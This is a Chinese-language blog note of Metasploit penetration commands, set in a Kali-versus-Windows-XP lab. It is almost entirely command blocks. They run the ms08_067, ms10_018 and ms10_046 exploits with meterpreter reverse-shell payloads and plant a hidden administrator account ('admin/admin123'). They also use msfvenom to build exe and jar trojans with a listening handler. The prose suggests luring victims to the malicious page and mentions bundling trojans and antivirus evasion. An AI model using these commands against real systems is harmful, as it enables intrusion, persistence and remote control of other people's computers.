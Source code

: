 ```yaml
---
title: Metasploit 的一些渗透命令记录
date: 2017-08-12 11:51:36
tags: [干货]
categories: 笔记
---
```

## 学黑客技术必备啊
### 简单来说，Metasploit是一款开源的安全漏洞检测工具，它本身附带一千多个渗透方式，和数百种攻击载荷
##### 来看看长啥样
![](/Metasploit 的一些渗透命令记录/1502693518259026341.png)

## 下面记录关于windows xp 系统的一些漏洞。进行攻击的命令记录
### 测试环境：
#### 1、kali2.0
#### 2、windows xp pro

## 1、漏洞： ms08_067 
```
# 可通过命令来查看详情:search ms08_067
use exploit/windows/smb/ms08_067_netapi    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set RHOST 192.168.12.131   //设置目标主机ip ，我这里的目标主机为192.168.12.131
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
set target 0        //这个设置自动
run  //开始攻击
# 获取到反弹的shell
shell   //进入对方电脑的终端
```
## 2、漏洞 ms10_018（浏览器提权）
```
# 同样的我们看看这个漏洞(搜索)：search ms10_018
use exploit/windows/browser/ms10_018_ie_behaviors    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set SRVHOST 192.168.12.130   //设置服务器主机ip ，我这里的目标主机为192.168.12.130
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
set URIPATH test        //这个设置项目名为test
exploit  //开始渗透		
# 等待目标访问我们的网页，或者引诱目标访问我们的网页
# 获取到session(当出现类似： Successfully migrated to services.exe (680) 这样就是成功了)
sessions -i //查看 session
session -i 1 //选择id ，1就是id
# 获得shell
# 可以在对方的系统上添加一个管理员权限：命令如下
net user admin admin123 /add //这条命令的意思是新建一个用户admin,密码为admin123
net localgroup administrators admin /add //这条命令的意思是吧admin 添加到管理员组
```

## 3、漏洞 ms10_046（快捷方式漏洞）
```
# 同样的我们看看这个漏洞(搜索)：search ms10_046
use exploit/windows/browser/ms10_046_shortcut_icon_dllloader    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set SRVHOST 192.168.12.130   //设置服务器主机ip ，我这里的目标主机为192.168.12.130
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
run        //开始渗透	
exploit	
# 等待目标访问我们的网页，或者引诱目标访问我们的网页(或者http://192.168.12.130:80/) 或者文件夹里访问：\\192.168.12.130\ILSSNnFb\ 
# 获取到session(当出现类似： Successfully migrated to services.exe (680) 这样就是成功了)
sessions -l //查看 session
session -i 1 //选择id ，1就是id
# 获得shell
# 可以在对方的系统上添加一个管理员权限：命令如下
net user admin admin123 /add //这条命令的意思是新建一个用户admin,密码为admin123
net localgroup administrators admin /add //这条命令的意思是吧admin 添加到管理员组
```

> #### 当我们没有发现漏洞的时候，我们就可以利用木马进行攻击了。但是现在的杀毒软件挺成熟的，普通生成的木马容易被发现，所有我们要做的事学会免杀，或者可以和其他软件进行捆绑。
> #### 免杀是一门高级的学问，在这里就不再讲述了，下面介绍的是用msfvenom 生成木马。

## 4、木马生成
```
# 当没有漏洞的时候，就可以使用木马来进行渗透了。
# 利用 msfvenom 工具生成木马
# -p 是设置payload, -f 是生成文件的格式 /root/muma.exe 是生成的文件名
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.12.130 LPORT=1234 -f exe > /root/muma.exe 	
# 上面是exe 的格式，java的格式如下：
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.12.130 LPORT=1234 -f jar > /root/muma.jar
# 如果是java 下面的set payload 也要改成和生成文件的payload 的一致。
# 打开msfconsole进行监听
use exploit/multi/handler			//
set payload windows/meterpreter/reverse_tcp  //设置载荷
set LHOST 192.168.12.130   //设置本机地址
set LPORT 1234   //设置监听端口，这个和上面用msfvenom 设置的端口一致
run  //开始渗透
获取到shell
```

> 说下废话，哥当年选计算机专业，就是感觉黑客很牛掰，黑着黑那的很神奇。但是现在发现和我想的不太一样呢。没想到计算机行业有那么多分类。
> 黑客技术很高深，要好好学，研究才行，哥只是个业余的。
> 
